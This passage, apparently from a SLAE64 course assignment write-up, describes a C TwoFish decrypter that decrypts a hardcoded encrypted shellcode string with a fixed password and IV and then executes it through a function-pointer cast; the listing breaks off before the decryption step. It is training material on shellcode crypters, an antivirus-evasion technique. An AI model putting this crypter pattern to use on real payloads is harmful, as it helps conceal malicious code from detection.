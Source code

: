 ```c 
}
```

### DeCrypt: Twofish_Decrypter.c
---
This code does exactly the same as before. Just that this time it decrypts the shellcode given. 

> Decrypt needs the same password and IV used to crypt 

The steps are the same as before. The program has the string containing the crypted shellcode in hex format, decrypts with the same password and IV used to crypt, and once this is done, runs the decrypted shellcode using the following code snippet:

```c
	int (*ret)() = (int(*)())code;
	ret();
```

The full code can be found in the [TwoFish_Decrypter.c](https://github.com/galminyana/SLAE64/blob/main/Assignment07/TwoFish_Decrypter.c) file on the [GitHub Repo](https://github.com/galminyana/SLAE64/tree/main/Assignment07) for this assignment:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <mcrypt.h>

// TwoFish needed setups

#define IV_SIZE 16
unsigned char password[] = "12345678";
// Same IV as crypt
unsigned char IV[IV_SIZE] = "\xae\xf6\x9d\xac\xf7\xfa\x5e\xf1\x05\x4e\x79\x69\xc4\x38\x0a\xfa";

//  ShellCode to decrypt
unsigned char code[]= \
"\x33\x67\x20\x48\x7c\xcc\x09\x15\xbc\xbb\x12\x56\xfb\xe4\xfe\x74\xaf\x21\x38\x48\x48\x01\xe8\xee\x2c\x73\xa0\x1a\xe3\xba\x5c\xc4";

int main (void)
{
	MCRYPT id_crypt;
	int code_length = strlen(code);

	printf("\nCrypted Shellcode (%d bytes):\n", code_length);
	for (int i = 0; i < code_length-1; i++) {
		printf("0x%02x,", code[i]);
	}
	printf("0x%02x", code[code_length-1]);	                    // Remove last ","

	/* MCrypt TwoFish Initialization */
	id_crypt = mcrypt_module_open("twofish", NULL, "cfb", NULL);

	/* IV initialization */
	printf("\n\nTwoFish IV value: ");
	int iv_size = mcrypt_enc_get_iv_size(id_crypt);
	for (int i = 0; i < iv_size-1; i++) {
		printf("0x%02x,", IV[i]);
	}
	printf("0x%02x", IV[iv_size-1]);	                        // Remove ","

	/* Print Password used for crypting */
	printf("\nTwoFish Password Used: %s", password);

```